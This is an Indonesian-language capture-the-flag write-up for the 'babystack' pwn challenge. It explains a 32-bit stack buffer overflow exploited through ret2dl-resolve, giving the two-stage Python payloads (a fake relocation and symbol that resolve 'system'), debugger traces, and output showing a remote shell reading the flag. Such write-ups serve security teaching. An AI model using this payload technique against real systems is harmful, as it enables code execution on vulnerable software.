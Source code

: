 # babystack


Soal ini diambil dari [sumber berikut](https://kileak.github.io/ctf/2018/0ctf-qual-babystack/)


## Analisa


Diberikan program dengan konfigurasi:
```
file babystack; checksec babystack
babystack: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 3.2.0, BuildID[sha1]=fec04eda780d4894712060ec109850576845402c, not stripped
[*] '/home/tempest/projects/cscctf/2019/qual/pwn/babystack/babystack'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```


Bug merupakan stack bof pada fungsi vuln, namun tidak diberikan libc untuk leak (program berjalan dengan ASLR). 



## Eksploitasi


Kita akan memanfaatkan dl-resolve, fungsi libc yang digunakan untuk melakukan resolve address pada setup `partial RELRO` atau lazy binding. Jika fungsi belum pernah dipanggil sebelumnya, libc akan melakukan push terhadap offset dan linkmap:
```
    0x8048300 <read@plt+0>     jmp    DWORD PTR ds:0x804a00c
->  0x8048306 <read@plt+6>     push   0x0
    0x804830b <read@plt+11>    jmp    0x80482f0

gef> tel $esp 4
0xffffcc74|+0x0000: 0xf7ffd940 -> 0x00000000 -> link map
0xffffcc78|+0x0004: 0x00000000 -> offset relokasi = 0
0xffffcc7c|+0x0008: 0x0804847c -> return address
0xffffcc80|+0x000c: 0x00000000
```


Kemudian akan dilakukan jump ke **\_dl\_runtime\_resolve**, dimana **\_dl\_fixup** akan dipanggil. Fungsi **\_dl\_fixup** ini mengembalikan alamat dari fungsi yang dicari dengan parameter linkmap dan offset relokasi. Snippet (disederhanakan agar mudah dimengerti):


```C
DL_FIXUP_VALUE_TYPE _dl_fixup(struct link_map *l, ELFW(Word) reloc_arg)
{
  const ElfW(Sym) *const symtab
    = (const void *) D_PTR (l, l_info[DT_SYMTAB]);
  const char *strtab = (const void *) D_PTR (l, l_info[DT_STRTAB]);

  const PLTREL *const reloc
    = (const void *) (D_PTR (l, l_info[DT_JMPREL]) + reloc_offset);
  const ElfW(Sym) *sym = &symtab[ELFW(R_SYM) (reloc->r_info)];
  const ElfW(Sym) *refsym = sym;
  void *const rel_addr = (void *)(l->l_addr + reloc->r_offset);
  lookup_t result;
  DL_FIXUP_VALUE_TYPE value;

  assert (ELFW(R_TYPE)(reloc->r_info) == ELF_MACHINE_JMP_SLOT);

  // lakukan lookup dengan cara normal terlebih dulu
  if (__builtin_expect (ELFW(ST_VISIBILITY) (sym->st_other), 0) == 0)
  {
  	...
  	result = _dl_lookup_symbol_x (strtab + sym->st_name, l, &sym, l->l_scope,
				    version, ELF_RTYPE_CLASS_PLT, flags, NULL);
  	...
  	return result;
  }
  ...
```


Kita mempunyai kontrol atas area **.bss** dan argumen terhadap fungsi yang akan kita panggil. Kita bisa memanggil **\_dl\_lookup\_symbol\_x** agar mengembalikan alamat **system**. Untuk perhitungan yang dilakukan oleh program, dapat ditiru seperti ini:
```Python
target = 0x804a500
# readelf --all babystack
# [10] .rel.plt          REL             080482b0
relplt = 0x80482b0
# [ 5] .dynsym           DYNSYM          080481cc
dynsym = 0x80481cc
# [ 6] .dynstr           DYNSTR          0804822c
dynstr = 0x804822c
offset = target+28-relplt
symaddr = target+36
align = 0x10-((symaddr-dynsym) & 0xf)
symaddr += align
idx_dynsym = (symaddr-dynsym)/0x10
r_info = (idx_dynsym << 8) | 7
reloc = p32(exe.got["read"]) + p32(r_info)
st_name = symaddr+0x10-dynstr
sym = p32(st_name) + p32(0)*2 + p32(0x12)
```


Penyusunan payload kurang lebih seperti ini untuk stage pertama:
```Python
payload = 'a'*0x10
payload += p32(target)
payload += p32(exe.plt["read"])
payload += p32(0x08048519) # pop3 ret
payload += p32(0)
payload += p32(target)
payload += p32(0x50)
payload += p32(0x80482f0) # .plt
payload += p32(offset) # reloc_arg
payload += p32(0) # padding
payload += p32(target)
```


Setelah `read(0,0x804a500,0x100)`, kita pop parameter read agar dapat return ke `.plt`. Kita masukkan **reloc_arg** yang sudah kita hitung dan padding agar bisa dipanggil `system("/bin/sh");`. Berikut payload stage 2:
```Python
payload = "/bin/sh\x00"
payload = payload.ljust(0x1c,'\x00')
payload += reloc
payload += '?'*align
payload += sym
payload += "system\x00"
```
Payload dipad hingga 28 byte karena perhitungan `offset = 0x804a500+28-relplt` tadi. Selanjutnya ditambahkan GOT entry yang ingin dioverwrite dan relocation offsetnya. Setelah dilakukan alignment kita dapat memasukkan fake symbol table sendiri dan string "system".


Berikut adalah state program ketika dipanggil **\_dl\_runtime\_resolve**:
```
   -> 0x80482f6                  jmp    DWORD PTR ds:0x804a008

gef> tel $esp 4
0xffb51740|+0x0000: 0xf7fe6940 -> 0x00000000 -> linkmap
0xffb51744|+0x0004: 0x0000226c -> reloc_arg
0xffb51748|+0x0008: 0x00000000
0xffb5174c|+0x000c: 0x0804a500 -> "/bin/sh" -> parameter system

```


State ketika dipanggil **\_dl\_lookup\_symbol\_x**:
```
->0xf7fcdff3                  call   0xf7fc8e80
    \->  0xf7fc8e80                  push   ebp

0xf7fc8e80 (
   [sp + 0x0] = 0x0804a53c->"system",
   [sp + 0x4] = 0xf7fe6940->0x00000000
)
```


Ketika return to system:
```
->0xf7fd3e2b                  ret    0xc

gef> tel $esp 6
0xffb51738|+0x0000: 0xf7df2200 -> <system+0> sub esp, 0xc	<-$esp
0xffb5173c|+0x0004: 0x00000043 ("C"?)
0xffb51740|+0x0008: 0xf7fe6940 -> 0x00000000
0xffb51744|+0x000c: 0x0000226c ("l""?)
0xffb51748|+0x0010: 0x00000000
0xffb5174c|+0x0014: 0x0804a500 -> "/bin/sh"
```


Output script:
```
$ python exploit.py go
[*] '/home/tempest/projects/cscctf/2019/qual/pwn/babystack/babystack'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to babystack.problem.cscctf.com on port 11111: Done
[*] Switching to interactive mode
$ cat /home/babystack/flag
CCC{ret2dl-resolve_t0_Th3_Re5Cu3}
$ 
[*] Closed connection to babystack.problem.cscctf.com port 11111
```
